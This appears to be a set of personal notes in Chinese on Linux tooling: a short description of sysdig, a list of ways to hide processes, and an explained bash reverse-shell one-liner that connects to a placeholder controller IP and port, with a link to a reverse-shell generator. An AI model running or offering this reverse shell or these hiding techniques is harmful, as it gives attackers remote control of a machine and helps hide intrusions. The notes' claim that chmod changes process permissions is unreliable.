 unhide
sysdig


Sysdig : Open Source Universal System Visibility With Native Contaier Support.

虽然 Linux 有很多系统分析和调优的工具 如strace、tcpdump、htop、iftop、lsof、netstat，但是它们一般都负责某个特殊的功能，并且使用方式有很大的差异，如果要分析和定位问题，一般都需要熟练掌握需要命令的使用。而且这些工具的数据无法进行共享，只能相互独立工作。Sysdig 一个工具就能实现上述所有工具的功能，并且提供了统一的使用语法。



CPU、Memory、Disk IO、网络 IO•支持各种 IO 活动：进程、文件、网络连接等

来分析这些数据



Sysdig 有着类似于 tcpdump 的过滤语法，用户可以随意组合自己的过滤逻辑，用户还可以自己编写 Lua 脚本来自定义分析逻辑，基本上不受任何限制。



https://mp.weixin.qq.com/s/j4vfelk1Eu-rl2s8B70_CQ







Linux 隐藏进程的方法有以下几种：

- 修改进程名：通过修改进程名，使进程不易被发现。可以使用命令行工具如 ps、top 来查看进程名。修改进程名可以使用命令 prctl 或 setproctitle。

- 修改进程所在目录：可以将进程所在目录修改为一个隐藏目录，使进程不易被发现。可以使用 chroot 命令将进程所在目录修改为一个隔离的目录。

- 修改进程权限：可以修改进程的权限，使其只能被 root 用户或者某个特定用户访问。可以使用 chmod 命令修改进程权限。

- 使用 rootkit 技术：rootkit 是一种用于隐藏进程和文件的恶意软件。可以使用 rootkit 技术隐藏进程。


反弹shell
一个反弹shell生成器 https://github.com/0dayCTF/reverse-shell-generator

例如：
```bash
bash -i >& /dev/tcp/控制端IP/控制端端口 0>&1
```
这个命令的作用是将标准输入、输出和错误重定向到一个 TCP 连接，从而实现反弹 shell。具体来说，该命令将标准输出和错误输出都重定向到一个 TCP 连接，并将标准输入重定向到标准输出和错误输出的合并，从而使得攻击者可以通过控制端口向目标机器发送命令并获取输出，实现反弹 shell 的效果。  
https://unix.stackexchange.com/questions/521596/what-does-the-01-shell-redirection-mean
